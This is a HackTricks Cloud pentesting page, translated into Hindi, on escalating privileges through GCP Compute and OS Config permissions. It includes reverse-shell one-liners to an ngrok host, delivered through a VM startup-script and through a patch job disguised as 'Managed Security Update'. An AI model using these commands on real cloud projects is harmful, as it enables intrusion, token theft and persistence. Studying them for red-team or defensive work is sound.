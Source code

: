 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो उदाहरण के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास उदाहरण से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

उस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **उदाहरण** का और **एक उपयोगकर्ता के अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM उदाहरण में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ उदाहरण चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM उदाहरणों में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है।
* आपको लॉगिन करने के लिए **SSH** सर्वर से **संपर्क करने में सक्षम होना चाहिए**।

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और उदाहरण को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक सेवा खाते के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाते का टोकन चुराया जाए** जिससे विशेषाधिकार बढ़ाने के लिए मेटाडेटा तक पहुंचा जा सके।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच नौकरी या तैनाती**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में पार्श्व रूप से आगे बढ़ने और प्रोजेक्ट के भीतर सभी कंप्यूट उदाहरणों पर कोड निष्पादन प्राप्त करने की अनुमति देगा।

ध्यान दें कि वर्तमान में आपको **उदाहरण से जुड़े SA पर `actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से शोषण करना चाहते हैं, तो आपको या तो एक [**पैच नौकरी**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **या** [**तैनाती**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** बनानी होगी।**\
पैच नौकरी चलाने के लिए: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

एक पैच डिप्लॉयमेंट को लागू करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) को इस गलत कॉन्फ़िगरेशन का लाभ उठाने के लिए अतीत में उपयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थिरता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** कंप्यूट इमेज पर।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** एक डिस्क स्नैपशॉट पर।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ दें** एक डिस्क पर।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे एक्सेस स्कोप को बायपास करने के लिए**](../)।

### GCP Compute इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
